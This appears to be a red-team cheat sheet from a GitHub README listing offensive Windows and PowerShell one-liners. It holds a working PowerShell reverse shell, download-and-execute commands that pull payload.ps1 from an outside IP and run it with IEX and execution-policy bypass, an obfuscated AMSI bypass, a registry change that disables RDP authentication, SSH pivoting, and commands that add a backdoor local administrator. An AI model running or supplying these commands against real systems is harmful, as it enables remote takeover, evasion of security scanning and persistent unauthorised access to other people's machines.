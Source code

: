 # Red-Team-Essentials

#Powershell Reverse Shell one Liner

 Please replace IP,PORT from your IP and port -

$client = New-Object System.Net.Sockets.TCPClient("IP",PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
  

#Powershell Download in V4 and V5

 Invoke-WebRequest "http://10.10.15.58/hex.ps1" -OutFile "C:\Windows\TEMP\hex.ps1" 
 
#Check Powershell Version 

 $PSVersionTable.PSVersion

#Download File Powershell V2 

(New-Object Net.WebClient).DownloadFile('http://10.10.15.58/powerview.ps1', 'C:\users\someuser\Desktop\powerview.ps1') 

#Download Execute Powershell One Liner 

powershell -exec bypass IEX (New-Object Net.WebClient).DownloadString('http://10.10.15.58/payload.ps1')

#AMSI Bypass

sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

#Execute this on target machine if you get rdesktop's Cred SSP Error while using remotedesktop

 reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
 
 #Remote desktop login through domain user credentials 
 
 xfreerdp /u:username /d:adcorp.local /p:"passwordxyz" /v:TARGETIP
 
 #Download Execute powershell
 
 powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://10.10.15.58/payload.ps1')|iex"
 
 #Pivoting using sshutle when you have rsa keys 
 
sshuttle -r root@TARGETIP -e "ssh -i rsa" TARGETIPRANGE.0/24


 #Adding user on windows cmd line & adding it to local admin group 
net user hexninja lolbr3@k3r /ADD
net localgroup administrators hexninja /ADD


